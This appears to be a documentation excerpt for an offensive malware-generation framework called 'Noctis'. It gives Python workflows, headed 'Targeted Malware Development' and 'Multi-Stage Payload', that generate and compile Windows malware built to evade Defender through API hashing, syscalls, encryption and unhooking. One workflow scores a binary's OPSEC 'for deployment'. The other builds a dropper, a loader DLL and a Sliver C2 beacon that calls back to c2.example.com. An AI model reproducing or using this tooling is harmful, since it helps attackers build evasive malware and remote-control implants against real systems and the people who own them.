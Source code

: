 ### Workflow 4: Targeted Malware Development

```python
# For Windows 11 + Defender
techniques_win11_defender = [
    "NOCTIS-T124",  # API hashing (T1027.009, T1106)
    "NOCTIS-T118",  # Syscalls (T1106, T1055)
    "NOCTIS-T123",  # Encryption (T1027)
    "NOCTIS-T116"   # Unhooking (T1562.001)
]

# Generate and compile
response = requests.post('http://localhost:5000/api/generate', json={
    'techniques': techniques_win11_defender,
    'target_os': 'Windows 11',
    'target_av': 'Windows Defender',
    'obfuscate': True
})

code = response.json()['code']

# Compile with high optimization
response = requests.post('http://localhost:5000/api/compile', json={
    'source_code': code,
    'architecture': 'x64',
    'optimization': 'O3',
    'subsystem': 'windows'
})

# Analyze OPSEC
binary = response.json()['binary_path']
opsec = analyze_opsec(binary)

if opsec['score'] >= 8:
    print(f"Ready for deployment: {binary}")
else:
    print(f"OPSEC score too low ({opsec['score']}), improving...")
```

### Workflow 4: Multi-Stage Payload

```python
# Stage 1: Minimal dropper
stage1_code = generate_code(['NOCTIS-T124'])  # Just API hashing
compile_code(stage1_code, output='dropper.exe')

# Stage 2: Full-featured loader
stage2_code = generate_code([
    'NOCTIS-T124', 'NOCTIS-T118', 'NOCTIS-T125', 'NOCTIS-T201'
])
compile_code(stage2_code, output='loader.dll')

# Stage 3: Final payload (C2 beacon)
beacon = generate_sliver_beacon(
    listener_host="c2.example.com",
    listener_port=443,
    protocol="https",
    obfuscate=True
)

print("Multi-stage payload ready:")
print(f"  Dropper: dropper.exe")
print(f"  Loader: loader.dll")
print(f"  Beacon: {beacon.beacon_path}")
```